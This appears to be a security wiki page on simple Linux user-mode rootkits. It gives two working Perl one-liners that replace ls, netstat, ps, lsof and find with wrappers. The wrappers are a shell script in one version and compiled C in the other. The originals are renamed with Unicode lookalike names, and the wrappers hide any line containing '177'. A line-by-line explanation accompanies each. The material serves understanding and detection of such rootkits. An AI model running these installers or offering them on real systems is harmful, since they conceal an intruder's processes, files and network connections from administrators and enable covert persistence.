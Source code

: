 # Simple User-mode Rootkits

## <mark style="color:red;">Shell User-mode Rootkit</mark>

{% hint style="danger" %}
#### This rootkit is pretty easy to detect and analyze because it can easily be seen with the file command that programs like `ps` or `ls` have changed the type from an ELF binary to a shell script. After discovering the rootkit, it is also pretty easy to analyze the functionality of it and then selectively find the backdoors hidden by the rootkit.
{% endhint %}

The shell script version is still useful if the system doesn't contain a c compiler:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"&gt;$o";print F"#!/bin/sh\n$_ \$*|grep -vE \"[$s-$n]|grep|177\"";chmod 493,$o'
```

The which command lists the absolute path of the programs to maniuplate in the rootkit. These absolute paths are passed to a perl one-liner. The perl program starts with defining the variables $s and $n, which are initialized with the Unicode characters u+455 and u+578. These characters look like the ascii characters "s" and "n". Then it copies the filename of the original filename to $o and changes the filename in $\_ by replacing the "s" in ls, netstat, ps and lsof with u+455 and the "n" in find with u+578. The result of these replacements is a new filename which looks exactly like the original filename. The original program is then renamed to the new name and then replaced with a shell script, which calls the renamed original program ($\_) and pipes the output to grep. The grep command filters lines containing one of the following:

* Unicode characters used by the rootkit (\[$s-$n]) => Makes the rootkit self-hiding
* The string "grep" => Don't show that grep is running in the output of ps
* The string "177" => This is used for the stuff which should be hidden by the rootkit.

## <mark style="color:red;">The C Version</mark>

In order to make finding and analyzing the rootkit more difficult, it is also possible to compile small binaries instead of the shell script:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"|gcc -xc - -o$o";print F qq{int main(int a,char**b){char*c[999999]={"sh","-c","$_ \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};memcpy(c+3,b,8*a);execv("/bin/sh",c);}}'
```

The beginning is pretty much like the first variant of the rootkit. However, insted of directly writing the wrapper program, the perl script opens a pipe to gcc and writes a small C program to this pipe. The following shows a more readable version of the C program:

```
int main(int a,char**b){
  char*c[999999]={"sh","-c","original_program \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
```

The first line initializes the argument array for execv with "sh -c" and the same shell command as the first variant of the rootkit while the second line copies all remaining arguments from the argv array passed to the wrapper binary to the end of the argument array for execv.
